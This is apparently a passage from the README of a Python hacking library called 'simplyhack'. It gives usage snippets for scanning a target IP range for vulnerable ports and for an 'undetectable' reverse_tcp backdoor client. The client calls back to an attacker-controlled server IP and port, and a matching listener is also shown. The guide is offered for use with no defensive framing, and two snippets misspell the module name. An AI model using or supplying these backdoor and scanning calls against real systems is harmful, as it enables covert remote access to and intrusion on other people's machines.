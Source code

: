 > Note: You can also specify your entire IP range. eg xxx.xxx.xxx.1/24

```python
import simplyhack
# or use - from simplyhack import port_vulnscan

simplyhack.port_vulnscan(ip="<Your target IP/IP range>")
```


## [Gaining Access]

**Undetectable reverse_tcp connection Backdoor (Client)**

- server ip = The IP address of the attackers maching
- server port = The port number on which you have to listen for connections

> Note: Do not use quotation while specifying the port number. ie. use xxxx and not "xxxx" to specify the port number

```python
import simplyhack
# or use - from simplyhack import backdoor_client

simplthack.backdoor_client(server_ip="<server IPv4>", server_port=<server port number>)
```

**reverse_tcp connection Server**

- server ip = The IP address of the attackers maching
- server port = The port number on which you have to listen for connections

> Note: Do not use quotation while specifying the port number. ie. use xxxx and not "xxxx" to specify the port number

```python
import simplyhack
# or use - from simplyhack import backdoor_server

simplthack.backdoor_server(server_ip="<server IPv4>", server_port=<server port number>)
```
